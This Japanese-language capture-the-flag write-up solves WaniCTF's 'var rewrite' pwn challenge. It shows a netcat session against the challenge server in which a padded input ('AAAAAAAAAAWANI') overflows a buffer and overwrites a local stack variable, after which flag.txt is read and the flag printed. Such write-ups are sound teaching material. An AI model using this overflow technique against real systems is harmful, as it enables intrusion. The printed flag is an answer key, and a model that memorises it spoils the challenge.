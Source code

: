 # var rewrite:PWN:101pts
nc var.wanictf.org 9002  
- stackの仕組みを理解する必要があります。  
- ローカル変数はstackに積まれます。  
- ローカル変数を書き換えて下さい。  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Smash Stack Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn02](pwn02)　　　　[pwn02.c](pwn02.c)  

# Solution
stackの変数を書き換えればいいようだ。  
pwn02.cの以下に注目する。  
```c
~~~
    if (strncmp(target, "WANI", 4) == 0)
    {
        win();
    }
    else
    {
        printf("target = %s\n", target);
    }
~~~
```
変数をWANIにすればよい。  
stackが見える親切設計なのでパディングはすぐにわかる。  
```bash
$ nc var.wanictf.org 9002
What's your name?: AAAAAAAAAA
hello AAAAAAAAAA!
target =

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4b43410041414141
0x7ffe6852dc18: 0x0000000b00455341
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAAAAAA
hello AAAAAAAAAAAAAAA!
target = AAAAA

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4141414141414141
0x7ffe6852dc18: 0x0000001000450041
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAWANI
hello AAAAAAAAAAWANI!
Congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}
^C
```
flagが得られた。  

## FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}